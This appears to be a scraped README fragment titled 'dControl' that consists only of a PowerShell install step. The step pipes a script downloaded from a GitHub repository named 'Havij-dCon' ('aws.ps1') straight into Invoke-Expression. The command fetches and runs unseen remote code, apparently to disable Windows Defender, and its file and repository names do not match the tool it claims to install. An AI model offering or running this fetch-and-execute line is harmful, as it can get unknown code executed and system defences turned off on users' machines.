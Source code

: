 # dControl
```powershell
irm https://raw.githubusercontent.com/sahmsec/Havij-dCon/main/aws.ps1 | iex
